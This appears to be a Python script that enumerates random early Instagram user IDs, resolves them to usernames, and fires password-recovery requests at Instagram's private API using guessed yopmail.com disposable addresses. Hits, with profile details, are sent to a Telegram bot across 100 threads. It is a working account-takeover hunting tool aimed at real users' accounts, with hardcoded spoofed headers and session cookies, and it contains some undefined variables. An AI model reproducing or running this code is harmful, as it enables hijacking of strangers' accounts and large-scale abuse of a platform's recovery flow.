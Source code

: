 import random
import requests
from asmix import Instagram
import os
import requests
from user_agent import generate_user_agent
from time import time
from hashlib import md5
from random import choice
from concurrent.futures import ThreadPoolExecutor
from cfonts import render, say
from requests import post as pp
from user_agent import generate_user_agent as gg
from random import choice as cc
from random import randrange as rr
import random
import base64
import re
import ethan
import sys
from asmix import Instagram
import random
import string
import json
import requests
from threading import Thread
from rich.console import Console
Con = Console()
from concurrent.futures import ThreadPoolExecutor
executor = ThreadPoolExecutor(max_workers=30)
ID=input('enter Id : ')
token= input ('enter token : ')
def info (user,email):
	aa=Instagram.info(user)
	followers=aa.get('followers')
	following=aa.get('following')
	posts=aa.get('post')
	date=aa.get('date')
	rrr=Instagram.rest(user)
	try:
		ff = f'''
		
╔═══════════════════╗
║         𝗡𝗘𝗪 𝗜𝗚 𝗔𝗖𝗖𝗢𝗨𝗡𝗧            ║
╚═══════════════════╝
      ╭───────────────╮
      │ Username  : {user}
      │ Email     : {email}
      │ Followers : {followers}
      │ Following : {following}
      │ Posts     : {posts}
      │ Date      : {date}
      │ Rest      : {rrr}
      ╰───────────────╯
 ═══════ @FFNZZ ═══════
 '''
		requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")	  	
	except:
		rr=Instagram.rest(user)
		ff = f"""
╔═══════════════════╗
║         𝗡𝗘𝗪 𝗜𝗚 𝗔𝗖𝗖𝗢𝗨𝗡𝗧            ║
╚═══════════════════╝
      ╭───────────────╮
      │ Username  : {user}
      │ Email     : {email}
      │ Rest      : {rr}
      ╰───────────────╯
 ═══════ @FFNZZ ═══════
	        """
	        		
		requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
def rest(user):
  try:
    email=user+'@yopmail.com'
    headers = {
    	                        'X-Pigeon-Session-Id': '50cc6861-7036-43b4-802e-fb4282799c60',
        'X-Pigeon-Rawclienttime': '1700251574.982',
        'X-IG-Connection-Speed': '-1kbps',
        'X-IG-Bandwidth-Speed-KBPS': '-1.000',
        'X-IG-Bandwidth-TotalBytes-B': '0',
        'X-IG-Bandwidth-TotalTime-MS': '0',
        'X-Bloks-Version-Id': '009f03b18280bb343b0862d663f31ac80c5fb30dfae9e273e43c63f13a9f31c0',
        'X-IG-Connection-Type': 'WIFI',
        'X-IG-Capabilities': '3brTvw==',
        'X-IG-App-ID': '567067343352427',
        'User-Agent': 'Instagram 100.0.0.17.129 Android (29/10; 420dpi; 1080x2129; samsung; SM-M205F; m20lte; exynos7904; en_GB; 161478664)',
        'Accept-Language': 'en-GB, en-US',
        'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'Accept-Encoding': 'gzip, deflate',
        'Host': 'i.instagram.com',
        'X-FB-HTTP-Engine': 'Liger',
        'Connection': 'keep-alive',
        'Content-Length': '356',
    }
  

        
        
        
        
    data = {
        f'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.{"_csrftoken":"9y3N5kLqzialQA7z96AMiyAKLMBWpqVj","adid":"{Lol}","guid":"{Gio}","device_id":"{DvD}","query":"' + email + '"}',
        'ig_sig_key_version': '4',
    }



            	
    respon = requests.post('https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/', headers=headers, data=data).text
   
         
        
    	
    if '"status":"ok"' in respon:
    	info(user,email)
    	print(f'good /@{user}  / {email}')    	
    else:
    	print(f'bad /@{user}  / {email}')
  
  except:
  	print('error')	

def Users():
    global Ex
    try:
        
        LsD = ''.join(random.choices(string.ascii_letters + string.digits, k=4))
       
        UseriD = str(random.randrange(10000,uid))
        
        variables = json.dumps({"id": UseriD, "render_surface": "PROFILE"})
        data = {"lsd": LsD, "variables": variables, "doc_id": "25618261841150840"}
        
        response = requests.post("https://www.instagram.com/api/graphql", headers={"X-FB-LSD": LsD}, data=data)
        
        
        user= response.json()['data']['user']['username']
        rest(user)
        
    
        return username
    except Exception as e:
        return None

print('''
1 -  2011
2 - 2012
3 - 2013
4 - 2014
5 - 2015
6 - 2016-2017
''')
num = int(input('choice<=> : '))


if num == 1:
    uid = 18957403
    iud = 10000
elif num == 2:
    uid = 287924624
    iud = 183140
elif num == 3:
    uid = 461365132
    iud = 180165130
elif num == 4:
    iud = 361365132
    uid = 1682665388
elif num == 5:
    iud = 1682665388
    uid = 3382665388
elif num == 6:
    iud = 2682665388
    uid = 8682665388
else:
    exit()
def ExUsers():
    for _ in range(1000):  
        Users()

threads = []
for _ in range(100): 
    thread = Thread(target=ExUsers)
    thread.start()
    threads.append(thread)

for thread in threads:
    thread.join()

Con.print(f"</> Users Extracted: [bold]{Ex}[/bold]")
